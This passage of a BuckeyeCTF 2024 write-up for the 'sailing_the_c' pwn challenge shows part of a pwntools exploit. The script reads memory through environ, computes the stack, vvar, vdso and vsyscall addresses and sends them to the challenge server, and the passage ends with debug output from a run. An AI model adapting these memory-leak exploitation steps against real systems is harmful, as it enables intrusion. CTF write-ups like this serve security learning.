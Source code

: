 ```py
vvar_leak = vdso_leak - 0x4000

stack_pos = libc.sym['environ']
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(stack_pos).encode())
stack_leak = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)

print(hex(stack_leak))
stack_leak = (stack_leak & 0xfff) ^ stack_leak + 0x2000 - 0x21000
print(hex(stack_leak))

vsyscall = 0xffffffffff600000

r.recvuntil(b'Where to, captain?\n')
r.sendline(str(0).encode())

r.recvuntil(b'?\n')
r.sendline(str(elf_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(heap_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(libc_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(ld_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(stack_leak).encode())

r.recvuntil(b'?\n')
r.sendline(str(vvar_leak).encode())

r.recvuntil(b'?\n')
r.sendline(str(vdso_leak).encode())

r.recvuntil(b'?\n')
r.sendline(str(vsyscall).encode())

r.interactive()
```
running the exploit we have
```bash
fooker@fooker:~/buckeyectf2024/pwn/sailing_the_c$ python3 solve.py
[*] '~/buckeyectf2024/pwn/sailing_the_c/chall_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
[+] Opening connection to challs.pwnoh.io on port 13375: Done
[DEBUG] Received 0x13 bytes:
    b'Where to, captain?\n'
[DEBUG] Sent 0x8 bytes:
    b'4210720\n'
[DEBUG] Received 0x48 bytes:
    b'Good choice! We gathered 139894762634832 gold coins.\n'
    b'Where to, captain?\n'
libc_base = 139894762106880 => in hex: 0x7f3bc999f000
[DEBUG] Sent 0x8 bytes:
```
